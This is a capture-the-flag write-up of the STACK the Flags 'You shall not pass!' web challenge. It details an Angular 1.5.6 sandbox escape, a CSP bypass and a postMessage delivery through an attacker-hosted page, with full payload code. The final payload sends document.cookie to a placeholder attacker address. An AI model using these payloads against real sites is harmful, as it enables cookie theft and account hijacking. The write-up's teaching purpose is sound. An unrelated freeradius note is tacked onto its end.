 ```yaml
---
title: STF <You shall not pass!>
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF]
tags: [sandbox, tech, angular, xss]
toc: true
---
```



[STACK the Flags CTF](https://ctf.tech.gov.sg/) is an online, jeopardy style Capture-the-Flag competition organised by the folks in GovTech’s Cyber Security Group (CSG).

![upload-image](/assets/img/blog/you-shall-not-pass/score.png)


## Initial Testing
Accessing the web site at http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/ will lead us to a simple page shown below.
![upload-image](/assets/img/blog/you-shall-not-pass/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/you-shall-not-pass/2.png)
![upload-image](/assets/img/blog/you-shall-not-pass/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/you-shall-not-pass/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.
![upload-image](/assets/img/blog/you-shall-not-pass/5.png)
![upload-image](/assets/img/blog/you-shall-not-pass/6.png)

2 other script tag can be found. `script.js` leads to a `404 Not Found` and a copy of Angular v1.5.6 is included.
![upload-image](/assets/img/blog/you-shall-not-pass/7.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/you-shall-not-pass/8.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header
![upload-image](/assets/img/blog/you-shall-not-pass/9.png)

## Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on ‘/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/you-shall-not-pass/10.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/you-shall-not-pass/11.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
```
The result should be something like this:
![upload-image](/assets/img/blog/you-shall-not-pass/12.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/you-shall-not-pass/13.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to ` http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/you-shall-not-pass/14.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

## Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/you-shall-not-pass/15.png)

As we can see, the payload contained a <space> character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/you-shall-not-pass/16.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. (xip)[http://xip.io/] provide a free domain name that points to any IP address. The domain name we will use is ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

## Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to ` a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/you-shall-not-pass/17.png)

## Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The total cost of the server can be seen in the picture below:
![upload-image](/assets/img/blog/you-shall-not-pass/18.png)


More info 
>> Main configuration file is called radiusd.conf in the root folder of the freeradius file 
>> Listening, Proxy, Authentication configuration are in the sites-available/default file
